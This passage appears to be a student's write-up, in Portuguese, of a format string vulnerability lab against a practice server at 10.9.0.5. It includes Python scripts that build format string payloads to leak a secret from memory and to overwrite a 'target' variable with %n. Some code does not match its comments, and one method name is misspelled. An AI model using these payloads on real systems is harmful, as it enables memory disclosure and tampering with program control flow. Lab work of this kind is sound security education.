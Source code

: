 A mensagem secreta é "A secret message"

```
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number  =  0x080b4008
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to store a 4-byte string at offset 4
content[4:8]  =  ("0x080b4008").encode('latin-1')

# This line shows how to construct a string s with
#   12 of "%.8x", concatenated with a "%n"
s = "%.8x "*63 + "%s"

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[8:8+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

![](https://i.imgur.com/1bm73Xv.png)

## Task 3

O objetivo desta tarefa é modificar o valor da variável *target*, que está definida no programa do servidor (utilizando 10.9.0.5 novamente). O valor original de *target* é 0x11223344. Supomos que esta variável tem um valor importante, que pode afetar o fluxo de controlo do programa. Se invasores remotos conseguirem alterar o valor, então poderão alterar o comportamento do programa.

### Task 3.A:

Nesta sub-tarefa temos que alterar o valor *target*, porque precisamos de alterar o conteúdo da variável para outra coisa. A tarefa é bem sucedida se pudermos alterá-la para um valor diferente, independentemente de qual valor possa ser. O endereço da variável *target* pode ser encontrado na impressão do servidor.
O nosso ficheiro exploit.py é o seguinte:
```
#!/usr/bin/python3
import sys

target_address = 0x080e5068

content = b''
content += (target_address).tobytes(4,byteorder='little')
content += b'%x'*63 + b'%n'

# Write the content to badfile
with open ('badfile', 'wb') as f:
    f.write(content)
```
